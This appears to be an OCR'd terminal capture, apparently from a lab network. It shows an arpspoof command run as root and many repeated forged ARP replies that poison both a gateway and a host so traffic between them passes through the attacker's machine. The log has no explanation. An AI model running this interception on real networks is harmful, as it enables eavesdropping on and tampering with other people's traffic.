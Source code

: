 8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 0:50:79:66:68:0
^C8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 0:50:79:66:68:0
               


(root㉿byby)-[/home/byby]
└─# arpspoof -i eth0 -t 10.2.1.254 10.2.1.117 -r
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61